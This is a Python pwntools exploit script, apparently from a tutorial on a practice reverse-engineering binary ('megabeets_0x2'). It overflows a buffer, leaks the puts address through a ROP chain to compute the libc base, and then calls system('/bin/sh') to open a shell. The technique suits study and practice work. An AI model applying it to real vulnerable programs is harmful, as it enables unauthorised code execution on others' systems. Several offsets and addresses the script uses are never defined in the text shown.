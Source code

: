 ```
# context.log_level = "debug"

def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    
    # Initial payload
    payload  =  "A"*140
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    p.clean()
    
    # Calculate libc base
    libc_base = leak - offset_puts
    log.info("libc base: 0x%x" % libc_base)

    # Stage 2
    
    # Calculate offsets
    system_addr = libc_base + offset_system
    exit_addr = libc_base  + offset_exit
    binsh_addr = libc_base + offset_str_bin_sh

    log.info("system is at: 0x%x" % system_addr)
    log.info("/bin/sh is at: 0x%x" % binsh_addr)
    log.info("exit is at: 0x%x" % exit_addr)

    # Build 2nd payload
    payload2  =  "A"*140
    ropchain2 =  p32(system_addr)
    ropchain2 += p32(exit_addr)
    # Optional: Fix disallowed character by scanf by using p32(binsh_addr+5)
    #           Then you'll execute system("sh")
    ropchain2 += p32(binsh_addr) 

    payload2 = payload2 + ropchain2
    p.sendline(payload2)

    log.success("Here comes the shell!")

    p.clean()
    p.interactive()

if __name__ == "__main__":
    main()
```
